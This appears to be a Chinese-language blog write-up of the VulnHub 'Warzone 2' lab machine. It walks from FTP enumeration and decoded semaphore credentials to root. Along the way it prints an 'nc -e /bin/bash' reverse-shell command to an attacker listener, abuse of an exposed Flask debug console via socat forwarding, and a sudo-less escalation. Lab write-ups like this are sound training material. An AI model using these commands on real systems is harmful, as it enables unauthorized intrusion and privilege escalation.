 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/BKm6dWqtCBrjkUl-VOraaA)

**0x01** Introduction  

* * *

虚拟机下载页面：http://www.vulnhub.com/entry/warzone-2,598/  

Description

```
Enumeration, Flask, Port Forwarding, GTFObins

Created and Tested in Virtual box (NAT network)

Hint : lowercase letters
```

‍

**0x02 Writeup**  

#### 获取 shell

端口扫描结果：

```
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
1337/tcp open  tcpwrapped
```

使用 anonymous 登录 ftp 发现有 anon 目录，将其中的 username.PNG，password.PNG，token.PNG 下载到本地，发现是海军旗语 [1]。

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQSF6SjFHakdNNCVE2OOeibPtVBs6MGVicrqEZd7dvNvyiciavqlZXL9CGDfv5EumNCibyTIXmUz1PmSCnw/640?wx_fmt=png)

用户名为 semaphore

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQSF6SjFHakdNNCVE2OOeibPtJICsAiaOXOFYaojDRG0sdSZiaDdhneiawibcTohBVb2BjJJaWEvSlNzG7A/640?wx_fmt=png)

密码为 signalperson

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQSF6SjFHakdNNCVE2OOeibPtJ7M4tOYSo5YwTnOeOZia4jyEzeqDsFYT1mOxgEjKibtE79oHC6ic1Q21A/640?wx_fmt=png)

在网站 http://www.jsons.cn/sha / 进行加密得到 token 为 833ad488464de1a27d512f104b639258e77901f14eab706163063d34054a7b26

nc 连接远程 1337 端口，成功获取 shell。

```
Username :semaphore
Password :signalperson
Token :833ad488464de1a27d512f104b639258e77901f14eab706163063d34054a7b26
Success Login
[SIGNALS] { ls, pwd, nc}
[semaphore] > nc -e /bin/bash 192.168.56.103 8000
[+] Recognized signal
[+] sending......

kali@kali:~$ nc -lvp 8000
listening on [any] 8000 ...
192.168.56.102: inverse host lookup failed: Host name lookup failure
connect to [192.168.56.103] from (UNKNOWN) [192.168.56.102] 35628
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### 获取 root

端口扫描结果：进入 flagman 的 warzone2-socket-server 目录，发现了用户密码文件. mysshpassword，得到密码 i_hate_signals!。

```
flagman@192.168.56.102's password: 
Linux warzone2 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64
+-+-+-+-+-+-+-+-+-+-+-+-+-++-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-++-+-+-+
WARZONE 2 WARZONE 2 WARZONE 2 WARZONE 2 WARZONE 2 WARZONE 2 WARZONE 2
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
                    {WARZONE IS A DANGER ZONE}
flagman@warzone2:~$ 
```

查看 sudo -l 发现可以以用户 admiral 执行 / home/admiral/warzone2-app/wrz2-app.py。

```
flagman@warzone2:~$ sudo -l
Matching Defaults entries for flagman on warzone2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User flagman may run the following commands on warzone2:
    (admiral) NOPASSWD: /usr/bin/python3
        /home/admiral/warzone2-app/wrz2-app.py
flagman@warzone2:~$ ls -all /home/admiral/warzone2-app/wrz2-app.py
-r-x------ 1 admiral admiral 494 Nov  8 09:32 /home/admiral/warzo
```

该文件不能被用户 flagman 读取和编辑，于是直接运行。

```
flagman@warzone2:~$ sudo -u admiral /usr/bin/python3 /home/admiral/warzone2-app/wrz2-app.py
 * Serving Flask app "wrz2-app" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.                                               
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 193-235-657
```

程序在 5000 端口起了一个 flask，并且开启了 debug 和输出了 pin 码。下面在 debug 中获取反弹 shell[2]，成功获取用户 admiral 权限。由于监听在地址 127.0.0.1，这里使用 socat 做了一个端口转发。  

```
flagman@warzone2:~$ socat TCP4-LISTEN:15000,reuseaddr,fork TCP4:127.0.0.1:5000
```

访问 / console，成功反弹 shell。

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQSF6SjFHakdNNCVE2OOeibPtAf4q3kToqV6z1WpPTZ4tQbbMz8icJ3mkLQNgibBTpI7hUFYrVEsicddIA/640?wx_fmt=png)

```
kali@kali:~$ rlwrap nc -lvp 8000
listening on [any] 8000 ...
192.168.56.102: inverse host lookup failed: Host name lookup failure
connect to [192.168.56.103] from (UNKNOWN) [192.168.56.102] 56154
id
uid=1000(admiral) gid=1000(admiral) groups=1000(admiral),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth),117(lpadmin),118(scanner)
sudo -l
Matching Defaults entries for admiral on warzone2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User admiral may run the following commands on warzone2:
    (root) NOPASSWD: /usr/bin/less /var/public/warzone-rules.txt
python3 -c 'import pty;pty.spawn("/bin/bash")'
admiral@warzone2:/home/flagman$ 
```

使用 less[3] 获取 root 权限。

```
admiral@warzone2:~$                     sudo -u root /usr/bin/less /var/public/warzone-rules.txt
sudo -u root /usr/bin/less /var/public/warzone-rules.txt
root@warzone2:/home/admiral# 
```

更多精彩

*   [Web 渗透技术初级课程介绍](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486030&idx=2&sn=185f303a2f1b5267c0865f117931959d&chksm=fcfc3718cb8bbe0e6f3ca97859e78342852537da2bef3cd76a83cb90ee64a8ca8953b35aa67e&scene=21#wechat_redirect)
    
*   [](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486968&idx=1&sn=7f66208298cf2cec57286947ddb8b223&chksm=fcfc30aecb8bb9b8333c1d05976dbdbf33d34f2a0d2b0cdfc41e835d29b9b4bcfc352504f8e4&scene=21#wechat_redirect)[vulnhub 之 SECARMY VILLAGE: GRAYHAT CONFERENCE 靶场 writeup](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247487087&idx=1&sn=608b289cd49a502720777dd037c66406&chksm=fcfc3339cb8bba2f4c7d17fc13fc9fc7168fb90ee2d7ea81a94918d92e8e309fc3a2f3e247b3&scene=21#wechat_redirect)  
    
*   [商务合作](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486808&idx=1&sn=f50f15f9a3ab7312a08b1f932292faca&chksm=fcfc300ecb8bb918213c6070d864ffcd70ad27ab6525521c31e9ccaa57bdfa2968360ed7e8fe&scene=21#wechat_redirect)
    

![](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQSd9wDlUiar0tUpHCYAzrZfTzOvS2SEw9cia9j7d1HKP2bWArPLCegs1XoejVUPu0GkSuZh7Wia7aExA/640?wx_fmt=png)

**如果感觉文章不错，分享让更多的人知道吧！**